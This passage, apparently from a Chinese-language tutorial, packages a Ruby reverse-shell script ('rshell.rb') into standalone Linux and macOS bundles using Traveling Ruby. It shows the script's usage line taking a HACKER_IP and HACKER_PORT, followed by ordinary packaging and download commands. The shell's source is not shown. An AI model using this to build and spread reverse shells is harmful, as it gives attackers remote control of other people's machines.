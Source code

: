+   测试它

```
ruby rshell.rb 
# => ruby rshell.rb [HACKER_IP] [HACKER_PORT] 
```

##### 创建打包目录

下一步是为所有目标平台准备软件包，通过为每个平台创建一个目录，并将你的应用程序复制到每个目录中。 （假设你的应用程序在不同的操作系统上可能有所不同）

```
mkdir -p rshell-1.0.0-linux-x86/lib/app
cp rshell.rb rshell-1.0.0-linux-x86/lib/app/

mkdir -p rshell-1.0.0-linux-x86_64/lib/app
cp rshell.rb rshell-1.0.0-linux-x86_64/lib/app/

mkdir -p rshell-1.0.0-osx/lib/app/
cp rshell.rb rshell-1.0.0-osx/lib/app/ 
```

接下来，创建一个`packaging`目录，并将 Traveling Ruby 二进制文件下载到该目录中。然后将这些二进制文件解压缩到每个打包目录中。你可以在 Traveling Ruby 的 Amazon S3 存储桶中找到二进制文件列表。为了更快的下载速度，请使用 CloudFront 域名"[`d6r77u77i8pq3.cloudfront.net`](http://d6r77u77i8pq3.cloudfront.net)"。在本教程中，我们提取的是版本 20141215-2.1.5。

```
mkdir packaging
cd packaging
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-osx.tar.gz
cd ..

mkdir rshell-1.0.0-linux-x86/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz -C rshell-1.0.0-linux-x86/lib/ruby
mkdir rshell-1.0.0-linux-x86_64/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz -C rshell-1.0.0-linux-x86_64/lib/ruby
mkdir rshell-1.0.0-osx/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-osx.tar.gz -C rshell-1.0.0-osx/lib/ruby 
```

现在，每个打包目录将包含 Ruby 二进制文件。看起来像这样：你的目录结构现在看起来像这样：

```
rshell/
 |
 +-- rshell.rb
 |
 +-- rshell-linux86/
 |   |
 |   +-- lib/
 |       +-- app/
 |       |   |
 |       |   +-- rshell.rb
 |       |
 |       +-- ruby/
 |           |
 |           +-- bin/
 |           |   |
 |           |   +-- ruby
 |           |   +-- ...
 |           +-- ...
 |
 +-- rshell-linux86_64/
 |   |
```